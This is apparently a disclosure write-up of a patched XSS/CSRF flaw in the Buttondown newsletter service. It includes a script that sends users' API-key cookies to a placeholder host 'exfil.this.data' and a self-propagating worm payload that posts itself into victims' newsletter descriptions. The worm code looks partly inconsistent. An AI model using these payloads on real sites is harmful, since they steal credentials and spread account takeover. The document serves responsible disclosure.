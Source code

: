 ```yaml
---
pretext: Article
title: Buttondown's XSS & CSRF Problem
subtitle: Aug 2023

inline: false
---
```


# Introduction

In this article, I will walk you through a vulnerability I discovered in Buttondown, a popular email newsletter service. The vulnerability involves a combination of Cross-Site Scripting (XSS) and Cross-Site Request Forgery (CSRF) attacks, which can potentially allow an attacker to gain unauthorized access to a user's account and perform actions on their behalf.


===
===

## Understanding the Vulnerability

The issue arises from the fact that the description box in the basic settings tab allows users to insert HTML without properly sanitizing the input. This means that malicious scripts can be injected into the description box. If a user who is logged into Buttondown views a newsletter containing such a script, their API key and other sensitive details stored in cookies can be exfiltrated.

===
===

## Exploitation Scenario

An attacker can craft a script to extract the API key from the cookies and send it to a remote server. Here is an example of such a script:

When a logged-in user views a newsletter containing this script, their API key will be sent to the attacker's server. The attacker can then use this API key to perform actions on the user's behalf, such as sending newsletters, accessing subscriber lists, or modifying account settings.

===

```js
<script>
fetch(
    'https://exfil.this.data/'
    + document.cookie.match(/buttondown_newsletter_api_key=([^;]+)/)[1],
    { mode: 'no-cors' }
);
</script>
```

===

## Impact

This vulnerability poses a serious risk to Buttondown users who are logged in and view newsletters containing malicious scripts. An attacker could potentially take over user accounts, access sensitive data, and perform unauthorized actions.

===
===

## Self-Replicating Exploit

One of the most concerning aspects of this vulnerability is its potential to become a self-replicating exploit, similar to the infamous MySpace Samy worm. The API allows users to add arbitrary data to the description of a blog post, which means that an attacker could inject a script that not only exfiltrates data but also propagates itself to other users.

Here is an example of how such a script could look:

===

```html
<script>
// Extract the API key from the cookies
const apiKey = document.cookie.match(/buttondown_newsletter_api_key=([^;]+)/)[1];

const payload = `
<script>
const apiKey = document.cookie.match(/buttondown_newsletter_api_key=([^;]+)/)[1];
fetch('https://exfil.this.data/' + apiKey, { mode: 'no-cors' });
fetch('https://api.buttondown.email/v1/newsletters', {
    method: 'POST',
    headers: {
        'Authorization': 'Token ' + apiKey,
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        description: '<script>'
            + document.currentScript.innerHTML
            + '</script>'
    })
});
</script>
`

// Exfiltrate the API key to the attacker's server
fetch('https://exfil.this.data/' + apiKey, { mode: 'no-cors' });

// Propagate the exploit by adding
// the malicious script to the target's description
fetch('https://api.buttondown.email/v1/newsletters', {
    method: 'POST',
    headers: {
        'Authorization': 'Token ' + apiKey,
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        description: ``
    })
});
</script>
```
===
===

I reported this vulnerability through Buttondown's responsible disclosure program, and they have since patched the issue. They were quick, friendly and professional in their response, and I appreciate their commitment to security.

===
===